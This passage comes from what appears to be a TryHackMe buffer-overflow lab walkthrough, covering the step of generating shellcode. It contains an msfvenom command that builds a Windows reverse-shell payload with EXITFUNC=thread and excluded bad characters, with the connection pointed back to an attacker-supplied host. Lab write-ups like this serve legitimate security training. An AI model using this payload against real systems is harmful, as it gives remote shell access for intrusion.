 ![Exploit modify retn](/images/THM/buffprep/of1/Captura23.PNG)

##### Generating Payload

Now It's time to generate the payload.

Since we want that after the execution of the exploit we can continuously access the system without the service corrupting, we change the exit function to a **thread mode**, making the thread die instead of the parent process. We will use the **EXITFUNC** with the value **thread**.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<OUR IP> LPORT=<Port that we want> EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```
